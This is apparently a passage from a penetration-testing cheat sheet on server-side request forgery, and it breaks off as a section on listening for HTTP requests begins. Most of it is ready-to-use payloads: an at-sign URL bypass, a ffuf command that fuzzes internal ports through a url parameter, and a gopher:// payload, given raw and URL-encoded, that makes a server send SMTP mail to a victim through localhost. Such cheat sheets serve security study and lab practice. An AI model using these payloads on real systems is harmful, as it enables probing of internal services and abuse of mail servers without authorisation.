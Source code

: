 ```sh

# At sign
?url=test@sub.example.com/index.php
```

### Local Port Enumeration

We can find which port is opening by fuzzing port number.

```bash
seq 1 65535 | ffuf -u https://example.com/?url=http://127.0.0.1:FUZZ -w -
```

<br />

## Gopher (gopher://)

We may be able to use **`gopher://`** scheme.

### Automation

We can use [Gopherus](https://github.com/tarunkant/Gopherus) to create a payload automatically.

### SMTP

At first, we need to prepare a payload for sending message to victim user.

```bash
gopher://127.0.0.1:25/_MAIL FROM:<john@example.com>
RCPT TO:<mike@example.com>
DATA
From:john@gofer.htb
Subject:Test
Hi, I'm not hacker.
.
```

The payload above can be URL encoded with tools such as CyberChef.  Then the encoded payload is as follow.

```bash
gopher://127.0.0.1:25/_MAIL%20FROM:%3Cjohn@example.com%3E%0ARCPT%20TO:%3Cmike@example.com%3E%0ADATA%0AFrom:john@gofer.htb%0ASubject:Test%0AHi,%20I'm%20not%20hacker.%0A.
```

We can use it to SSRF.

```bash
?url=gopher://127.0.0.1:25/_MAIL...
```

<br />

## Listen HTTP Request

If the website is vulnerable to SSRF, we can fetch sensitive information in HTTP request by sniffing.  
First off, start a listener in local machine.
